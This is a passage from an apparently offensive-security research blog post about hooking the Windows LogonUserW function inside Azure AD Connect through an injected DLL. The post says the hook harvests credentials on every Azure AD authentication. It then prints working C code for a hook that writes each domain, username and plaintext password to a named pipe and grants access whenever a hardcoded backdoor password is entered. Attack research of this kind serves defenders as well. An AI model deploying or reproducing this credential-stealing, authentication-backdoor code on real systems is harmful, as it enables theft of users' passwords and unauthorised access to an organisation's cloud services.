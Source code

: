 | 68  | Start(); |
| 69  |  case DLL_THREAD_ATTACH: |
| 70  |  case DLL_THREAD_DETACH: |
| 71  |  case DLL_PROCESS_DETACH: |
| 72  |  break; |
| 73  | }   |
| 74  |  return  TRUE; |
| 75  | }   |
| 76  |     |

 [view raw](https://gist.github.com/xpn/79a7f966b9dffd0ccf3505787f8060d7/raw/35a5bda6cf13e0966db86e63919bc3b1f9207262/azuread_hook_dll.cpp)  [azuread_hook_dll.cpp](https://gist.github.com/xpn/79a7f966b9dffd0ccf3505787f8060d7#file-azuread_hook_dll-cpp) hosted with ❤ by [GitHub](https://github.com/)

And when executed, we can see that credentials are now harvested each time a user authenticates via Azure AD:

[(L)](https://www.youtube.com/watch?v=ed90a5B_Rqk)

## Backdoor LogonUser

OK, so we have seen how to retrieve credentials, but what about if we actually want to gain access to an Azure AD supported service? Well at this stage we control `LogonUserW`, and more importantly, we control its response, so how about we insert a backdoor to provide us access.

Within our DLL code, let's add a simple check for a hardcoded password:

	BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
		PSID logonSID;
		void *profileBuffer = (void *)0;
		DWORD profileLength;
		QUOTA_LIMITS quota;
		bool ret;
		WCHAR pipeBuffer[1024];
		DWORD bytesWritten;

		swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password);
		WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL);

		// Backdoor password
		if (wcscmp(password, L"ComplexBackdoorPassword") == 0) {
			// If password matches, grant access
			return true;
		}

		// Forward request to LogonUserExW and return result
		ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);
		return ret;
	}
